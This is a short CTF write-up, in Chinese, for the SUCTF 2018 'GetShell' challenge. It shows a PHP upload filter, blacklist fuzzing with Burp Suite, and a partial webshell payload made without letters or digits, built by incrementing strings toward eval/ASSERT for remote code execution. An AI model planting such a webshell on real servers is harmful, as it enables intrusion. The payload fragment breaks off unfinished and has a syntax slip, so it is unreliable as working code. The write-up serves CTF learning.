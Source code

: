 # \[SUCTF 2018]GetShell

## \[SUCTF 2018]GetShell

## 考点

*

## wp

有个文件上传页面index.php?act=upload，给了一个检查语句

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

读取上传文件开头第五个字符后的内容，然后进行黑名单判断。但是不知道黑名单是什么，需要试一下，测试的字符放后面了，放burpsuite里面爆破一下，记得在设置payload时把`payload encoding`取消打钩

![](<../.gitbook/assets/image (27).png>)

可以看到，上传的文件直接保存成php，所有的数字字母都被过滤。但是PHP中笔记关键的`[]()$~;`都没被过滤，这就回到了无字符RCE。

```
<?php
// eval($_GET[A]);
// ASSERT($_POST[_]);
$_=[];
$__.=$_;
$___=$__[$__==$_];// A
$____ = $___
$___++;$___++;$___++;$___++; // E
$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;$___++;// O
$___++; // P
$___++;$___++;// R
$___++; // S
$___++; // T


```

## 小结

* [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
* [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
